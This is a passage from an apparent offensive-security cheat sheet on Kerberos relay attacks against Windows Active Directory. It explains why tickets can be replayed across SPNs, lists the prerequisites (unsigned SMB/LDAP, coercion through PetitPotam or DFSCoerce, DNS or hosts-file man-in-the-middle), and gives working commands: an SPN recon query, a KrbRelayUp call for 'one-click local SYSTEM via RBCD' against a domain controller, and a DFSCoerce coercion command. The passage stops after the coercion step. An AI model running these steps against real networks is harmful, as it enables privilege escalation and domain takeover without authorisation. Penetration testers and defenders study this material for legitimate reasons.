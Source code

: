 - 1. **Kerberos basics**

| Token | Purpose | Relay relevance |
|-------|---------|-----------------|
| **TGT / AS-REQ ↔ REP** | Proves the user to the KDC | untouched |
| **Service ticket / TGS-REQ ↔ REP** | Bound to one **SPN**; encrypted with the SPN owner’s key | interchangeable if SPNs share account |
| **AP-REQ** | Client sends `TGS` to the service | **what we steal & replay** |

* Tickets are encrypted with the **password-derived key of the account that owns the SPN**.  
* The **Authenticator** inside the AP-REQ has a 5-minute timestamp; replay inside that window is valid until the service cache sees a duplicate.  
* Windows rarely checks if the SPN string in the ticket matches the service you hit, so a ticket for `CIFS/HOST` normally decrypts fine on `LDAP/HOST`.

- 2. **What must be true to relay Kerberos**

1. **Shared key:** source and target SPNs belong to the same computer account (default on Windows servers).  
2. **No channel protection:** SMB/LDAP signing off and EPA off for HTTP/LDAPS.  
3. **You can intercept or coerce authentication:** LLMNR/NBNS poison, DNS spoof, **PetitPotam / DFSCoerce RPC**, fake AuthIP, rogue DCOM, etc..  
4. **Ticket source not already used:** you win the race before the real packet hits or block it entirely; otherwise the server’s replay cache fires Event 4649.
5. You need to somehow be able to perform a **MitM in the communication** maybe being part of the DNSAmins group to modify the DNS of the domain or being able to change the HOST file of the victim.

### Kerberos Relay Steps

- 3.1 **Recon the host**

```powershell
# find servers where HTTP, LDAP or CIFS share the same machine account
Get-ADComputer -Filter * -Properties servicePrincipalName |
  Where-Object {$_.servicePrincipalName -match '(HTTP|LDAP|CIFS)'} |
  Select Name,servicePrincipalName
```

- 3.2 **Start the relay listener**

[KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)

```powershell
# one-click local SYSTEM via RBCD
.\KrbRelayUp.exe relay --spn "ldap/DC01.lab.local" --method rbcd --clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8
```
`KrbRelayUp` wraps **KrbRelay → LDAP → RBCD → Rubeus → SCM bypass** in one binary.

- 3.3 **Coerce Kerberos auth**

```powershell
# coerce DC to auth over SMB with DFSCoerce
.\dfscoerce.exe --target \\DC01.lab.local --listener 10.0.0.50
```
DFSCoerce makes the DC send a Kerberos `CIFS/DC01` ticket to us.
